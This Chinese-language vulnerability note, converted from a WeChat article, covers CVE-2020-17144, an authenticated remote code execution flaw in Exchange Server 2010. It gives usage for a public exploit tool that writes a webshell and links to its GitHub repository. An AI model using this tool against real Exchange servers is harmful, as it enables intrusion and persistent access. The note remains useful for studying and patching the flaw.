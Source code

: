 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/pGur0EsgjahjnUZIyWYCIw)

###     漏洞简介

漏洞是由程序未正确校验 cmdlet 参数引起。经过身份验证的攻击者利用该漏洞可实现远程代码执行。

该漏洞和 CVE-2020-0688 类似，也需要登录后才能利用，不过在利用时无需明文密码，只要具备 NTHash 即可。除了常规邮件服务与 OWA 外，EWS 接口也提供了利用所需的方法。漏洞的功能点本身还具备持久化功能。

###     影响版本

Microsoft Exchange Server 2010 Service Pack 3 Update Rollup 31

###     漏洞利用

```
条件: Exchange2010; 普通用户
默认用法(写webshell): CVE-2020-17144-EXP.exe mail.example.com user pass


执行命令 & 端口复用: 修改ExploitClass.cs

参考 @zcgonvh https://mp.weixin.qq.com/s?__biz=MzI2NDk0MTM5MQ==&mid=2247483712&idx=1&sn=0b2cc3c9692f5c58a4eeb246d4b392fc&chksm=eaa5bb60ddd23276baf4cfd3fc59ca847c28f350c65ef98a17d49bc9944d653fad95dec4fd14&mpshare=1&scene=1&srcid=1209jtbQLVJIgr3VT0Ut1TM9&sharer_sharetime=1607483575995&sharer_shareid=dc9cecc79ba34e4bbb700a43a16153fd#rd
```

https://github.com/Airboi/CVE-2020-17144-EXP